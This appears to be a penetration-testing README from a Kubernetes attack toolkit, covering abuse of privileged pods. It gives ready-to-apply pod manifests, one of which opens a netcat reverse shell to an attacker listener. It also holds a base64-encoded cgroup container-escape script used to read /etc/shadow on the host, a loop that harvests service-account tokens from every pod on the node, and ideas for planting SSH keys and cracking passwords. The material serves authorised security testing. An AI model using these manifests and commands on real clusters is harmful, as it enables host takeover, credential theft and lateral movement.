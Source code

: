 ## You can create a pod with only privileged: true

If you only have `privileged=true`, you can eventually get an interactive shell on the node, but you start with non-interactive command execution as root and you'll have to upgrade it if you want interactive access. The privesc paths are the same as above.

# Pod Creation

## Create a pod you can exec into
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-only
  labels: 
    app: pentest
spec:
  containers:
  - name: priv-only
    image: ubuntu
    command: [ "/bin/bash", "-c", "--" ]
    args: [ "while true; do sleep 30; done;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on a control plane node by uncommenting the next line and changing the nodeName to that of a control plane node
  #nodeName: k8s-control-plane-node
  ```
[pod-priv-only.yaml](pod-priv-only.yaml)

#### Option 1: Create pod from local yaml 
```bash
kubectl apply -f pod-priv-only.yaml   
```

#### Option 2: Create pod from github hosted yaml
```bash
kubectl apply -f https://raw.githubusercontent.com/BishopFox/badPods/main/yaml/priv-only/pod-priv-only.yaml  
```

### Exec into pod 
```bash
kubectl -n [namespace] exec -it pod-priv-only -- bash
```

## Or, create a reverse shell pod
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: pod-priv-and-hostpid-revshell
  labels: 
    app: pentest
spec:
  hostPID: true
  containers:
  - name: priv-and-hostpid-revshell
    image: busybox
    command: [ "/bin/sh", "-c", "--" ]
    args: [ "nc $HOST $PORT  -e /bin/sh;" ]
    securityContext:
      privileged: true
  # Force scheduling of your pod on control plane node by uncommenting this line and changing the name
  #nodeName: k8s-control-plane-node
  restartPolicy: Always
```
[pod-priv-only-revshell.yaml](pod-priv-only-revshell.yaml)

#### Set up listener
```bash
nc -nvlp 3116
```

#### Create the pod
```bash
# Option 1: Create pod from local yaml without modifying it by using env variables and envsubst
HOST="10.0.0.1" PORT="3116" 
envsubst < ./yaml/priv-only/pod-priv-only-revshell.yaml | kubectl apply -f -
```

#### Catch the shell and chroot to /host 
```bash
~ nc -nvlp 3116
Listening on 0.0.0.0 3116
Connection received on 10.0.0.162 42035
```





# Post exploitation

#### Create undock script that will automate the container escape POC
```bash
echo ZD1gZGlybmFtZSAkKGxzIC14IC9zKi9mcy9jKi8qL3IqIHxoZWFkIC1uMSlgCm1rZGlyIC1wICRkL3c7ZWNobyAxID4kZC93L25vdGlmeV9vbl9yZWxlYXNlCnQ9YHNlZCAtbiAncy8uKlxwZXJkaXI9XChbXixdKlwpLiovXDEvcCcgL2V0Yy9tdGFiYAp0b3VjaCAvbzsgZWNobyAkdC9jID4kZC9yZWxlYXNlX2FnZW50O2VjaG8gIiMhL2Jpbi9zaAokMSA+JHQvbyIgPi9jO2NobW9kICt4IC9jO3NoIC1jICJlY2hvIDAgPiRkL3cvY2dyb3VwLnByb2NzIjtzbGVlcCAxO2NhdCAvbwo= | base64 -d > undock.sh 
```
Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 

#### Then use the script to run whatever commands you want on the host: 
```bash
sh undock.sh "cat /etc/shadow"
```



#### Look for kubeconfig's in the host filesystem 
If you are lucky, you will find a cluster-admin config with full access to everything (not so lucky here on this GKE node)

```bash
find / -name kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/merged/var/lib/kube-proxy/kubeconfig
/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/var/lib/node-problem-detector/kubeconfig
/var/lib/kubelet/kubeconfig
/var/lib/kube-proxy/kubeconfig
/home/kubernetes/containerized_mounter/rootfs/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/docker/overlay2/e13d54160a660c0486276f54449e9d9d364aaa4c985a3b71010d8bc31e520838/diff/var/lib/kube-proxy/kubeconfig
/mnt/stateful_partition/var/lib/node-problem-detector/kubeconfig
/mnt/stateful_partition/var/lib/kubelet/kubeconfig
/mnt/stateful_partition/var/lib/kube-proxy/kubeconfig
```

#### Grab all tokens from all pods on the system
Use something like access-matrix to see if any of them give you more permission than you currently have. Look for tokens that have permissions to get secrets in kube-system

```bash
# This lists the location of every service account used by every pod on the node you are on, and tells you the namespace. 
tokens=`find /var/lib/kubelet/pods/ -name token -type l`; for token in $tokens; do parent_dir="$(dirname "$token")"; namespace=`cat $parent_dir/namespace`; echo $namespace "|" $token ; done | sort

default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
default | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-t25ss/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
development | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/kube-proxy-token-x6j9x/token
kube-system | /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/calico-node-token-d426t/token


# For each interesting token, copy token value to somewhere you have kubectl set and see what permissions it has assigned to it
DTOKEN=`cat /var/lib/kubelet/pods/GUID/volumes/kubernetes.io~secret/default-token-qqgjc/token`
kubectl auth can-i --list --token=$DTOKEN -n development # Shows namespace specific permissions
kubectl auth can-i --list --token=$DTOKEN #Shows cluster wide permissions

# Does the token allow you to view secrets in that namespace? How about other namespaces?
# Does it allow you to create clusterrolebindings? Can you bind your user to cluster-admin?
```

#### Some other ideas:
* Add your public key to node and ssh to it
* Crack passwords in /etc/shadow, see if you can use them to access other nodes
* Look at the volumes that each of the pods have mounted. You might find some pretty sensitive stuff in there. 


#### Attacks that apply to all pods, even without any special permissions
* Cloud metadata service
* `Kube-apiserver` or `kubelet` with `anonymous-auth` enabled
* Kubernetes exploits
* Hunting for vulnerable application/services in the cluster


# Demonstrate Impact

If you are performing a penetration test, the end goal is not to gain cluster-admin, but rather to demonstrate the impact of exploitation. Use the access you have gained to accomplish the objectives of the penetration test.


Reference(s): 
* https://twitter.com/_fel1x/status/1151487051986087936
* https://blog.trailofbits.com/2019/07/19/understanding-docker-container-escapes/ 

